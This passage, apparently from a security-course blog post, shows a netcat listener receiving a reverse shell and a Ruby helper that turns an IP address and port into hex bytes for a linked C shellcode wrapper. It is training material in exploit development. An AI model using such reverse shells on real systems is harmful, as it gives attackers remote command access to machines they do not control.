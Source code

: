 #### Successful Connection
~~~ bash
skawa@ubuntu:~$ nc -lvp 3879
listening on [any] 3879 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 57996
uname -a
Linux ubuntu 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed Aug 14 15:31:16 UTC 2013 i686 i686 i386 GNU/Linux
whoami
skawa

~~~

#### Wrapper
For ease of configuration, I have put together a script that takes user supplied network information and converts it to hexadecimal. This can be found <a href="https://github.com/skahwah/slae/blob/master/assignment2/networkhex.rb">here</a>.

~~~ ruby
08:25 skawa@skawa-mbp: Desktop $ ruby networkhex.rb
IP: 192.168.156.156 is \xc0\xa8\x9c\x9c
Port: 3879 is \x0f\x27
08:25 skawa@skawa-mbp: Desktop $
~~~

The converted network information can then be placed into the `IP` and `PORT` variables in the `C` shellcode wrapper. This can be found <a href="https://github.com/skahwah/slae/blob/master/assignment2/shellcode-reverse.c">here</a>.
